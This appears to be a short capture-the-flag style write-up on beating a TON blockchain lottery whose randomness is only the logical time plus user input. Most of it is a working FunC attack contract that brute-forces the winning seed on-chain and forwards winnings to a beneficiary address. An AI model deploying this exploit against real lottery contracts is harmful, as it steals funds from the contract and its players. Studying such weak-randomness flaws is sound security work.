 Random that is used by lottery is not secure enough, it is just `lt` plus user input. Straightforward, but tedious approach is to try to predict lt of future transaction and brute-force winning seed.

A more elegant approach is to brute-force seed onchain since in that case `lt` of lottery-transaction is much more predictable: usually, it is sender transaction `lt` + 2


```func
const slice lottery = "XXX"a;
const slice benefeciar = "XXX"a;

() recv_internal(cell in_msg_full, slice in_msg_body) {
      var msg = begin_cell()
        .store_uint(0x18, 6)
        .store_slice(benefeciar)
        .store_coins(0)
        .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
      .end_cell();
      send_raw_message(msg, 128);
}

() recv_external() {
  int seed = cur_lt() + 2;
  int nonce = 0;
  int break = false;
  accept_message();
  do {
      set_seed(seed + nonce);
      break = rand(10000) == 7777;
      nonce -= ~ break;
   
  } until break;
      var msg = begin_cell()
        .store_uint(0x18, 6)
        .store_slice(lottery)
        .store_coins(1000000000)
        .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
        .store_uint(nonce, 128)
      .end_cell();
      send_raw_message(msg, 3);
}
```
